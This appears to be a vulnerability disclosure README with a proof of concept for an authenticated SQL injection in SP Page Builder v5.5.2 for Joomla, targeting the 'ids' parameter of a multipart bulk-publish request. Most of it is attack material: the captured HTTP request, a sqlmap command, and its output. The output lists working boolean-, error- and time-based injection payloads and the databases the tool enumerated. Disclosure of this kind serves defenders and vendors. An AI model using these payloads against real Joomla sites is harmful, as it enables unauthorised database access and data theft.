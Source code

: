 # SQL injection in SP Page Builder v5.5.2 for Joomla

**CVE Link:** Pending

**SP Page Builder:** https://extensions.joomla.org/extension/sp-page-builder/

## Introduction
An authenticated (administrator) SQL injection vulnerability exists in the SP Page Builder v5.5.2 via the 'ids' parameter in a multipart request in the Pages section for Joomla.

## POC
To exploit this vulnerability go to 'SP Page Builder >> Pages >> Page >> Select >> Bulk Actions >> Publish >> Apply' and save the publication request (req.txt).

![Alt text](sp_page_builder_pages.png)

## HTTP Request
```
POST /administrator/index.php?option=com_sppagebuilder&task=/editor.pages HTTP/1.1
Host: localhost:8080
Content-Length: 334
sec-ch-ua-platform: "Linux"
X-CSRF-Token: 0bb3070a79cefd045ffe263334b5502a
Accept-Language: en-GB,en;q=0.9
sec-ch-ua: "Chromium";v="133", "Not(A:Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryuBxIMB1sdeoLrZ21
Origin: http://localhost:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/administrator/index.php?option=com_sppagebuilder&view=editor&tmpl=component
Accept-Encoding: gzip, deflate, br
Cookie: osColorScheme=dark; atumSidebarState=open; 1dbcca15c61d69pcd85efbffb29e8e7e=6044bc4a172a990cd71d5f4ac32c4d6f; abe5d7947ca86d62155a0708f02f4q11=c2551dedd7cc06be535c90139c8b2283
Connection: keep-alive

------WebKitFormBoundaryuBxIMB1sdeoLrZ21
Content-Disposition: form-data; name="ids"

1
------WebKitFormBoundaryuBxIMB1sdeoLrZ21
Content-Disposition: form-data; name="type"

published
------WebKitFormBoundaryuBxIMB1sdeoLrZ21
Content-Disposition: form-data; name="_method"

PATCH
------WebKitFormBoundaryuBxIMB1sdeoLrZ21--
```

## Exploit
```
ubuntu@host:~$ python3 sqlmap.py -r ~/req.txt --dbs --dbms=mysql --batch --threads=10 -p 'ids'

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.9.1.2#dev}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---
Parameter: MULTIPART ids ((custom) POST)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: ------WebKitFormBoundaryuBxIMB1sdeoLrZ21
Content-Disposition: form-data; name="ids"

(SELECT (CASE WHEN (8275=8275) THEN 1 ELSE (SELECT 5102 UNION SELECT 6393) END))
------WebKitFormBoundaryuBxIMB1sdeoLrZ21--

    Type: inline query
    Title: Generic inline queries
    Payload: ------WebKitFormBoundaryuBxIMB1sdeoLrZ21
Content-Disposition: form-data; name="ids"

(SELECT CONCAT(CONCAT(0x7176786a71,(CASE WHEN (1068=1068) THEN 0x31 ELSE 0x30 END)),0x71707a7171))
------WebKitFormBoundaryuBxIMB1sdeoLrZ21--

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: ------WebKitFormBoundaryuBxIMB1sdeoLrZ21
Content-Disposition: form-data; name="ids"

1 AND GTID_SUBSET(CONCAT(0x7176786a71,(SELECT (ELT(4442=4442,1))),0x71707a7171),4442)
------WebKitFormBoundaryuBxIMB1sdeoLrZ21--

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: ------WebKitFormBoundaryuBxIMB1sdeoLrZ21
Content-Disposition: form-data; name="ids"

1 AND (SELECT 9458 FROM (SELECT(SLEEP(5)))lJsm)
------WebKitFormBoundaryuBxIMB1sdeoLrZ21--
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```
